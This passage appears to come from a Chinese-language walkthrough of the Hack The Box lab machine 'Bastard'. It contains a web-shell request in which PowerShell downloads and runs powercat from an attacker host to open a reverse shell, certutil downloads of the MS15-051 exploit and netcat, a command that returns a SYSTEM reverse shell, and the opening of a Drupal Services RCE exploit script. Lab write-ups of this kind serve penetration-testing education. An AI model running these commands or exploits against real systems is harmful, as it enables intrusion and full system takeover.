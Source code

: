 ```html
10.10.10.9/evil.php?cmd=powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.41:8080/powercat.ps1');powercat -c 10.10.14.41 -p 4444 -e cmd"
```

![image-20200928142637150]({{ site.url }}/assets/Bastard_9.assets/image-20200928142637150.png)

得到user

![image-20200928142850377]({{ site.url }}/assets/Bastard_9.assets/image-20200928142850377.png)

查看系统信息

![image-20200928142950940]({{ site.url }}/assets/Bastard_9.assets/image-20200928142950940.png)

winserver2008 X64 没打补丁，下载漏洞利用文件MS15-051x64.exe，以及将要使用的nc64.exe。

传输到靶机

```powershell
certutil -urlcache -split -f http://10.10.14.41:8080/ms15-051x64.exe

certutil -urlcache -split -f http://10.10.14.41:8080/nc64.exe
```

执行

![image-20200928143132204]({{ site.url }}/assets/Bastard_9.assets/image-20200928143132204.png)

漏洞利用没问题。现在利用漏洞打回一个rootshell

```powershell
ms15-051x64.exe "nc64.exe -e cmd.exe 10.10.14.41 1337"
```

![image-20200928143221999]({{ site.url }}/assets/Bastard_9.assets/image-20200928143221999.png)

在另一个监听端口得到root shell

![image-20200928143305352]({{ site.url }}/assets/Bastard_9.assets/image-20200928143305352.png)

![image-20200928143320511]({{ site.url }}/assets/Bastard_9.assets/image-20200928143320511.png)



完整修改的漏洞利用脚本

----

```php
#!/usr/bin/php
<?php
# Drupal Services Module Remote Code Execution Exploit
# https://www.ambionics.io/blog/drupal-services-module-rce
# cf
#
# Three stages:
# 1. Use the SQL Injection to get the contents of the cache for current endpoint
#    along with admin credentials and hash
# 2. Alter the cache to allow us to write a file and do so
# 3. Restore the cache
#

# Initialization
error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
```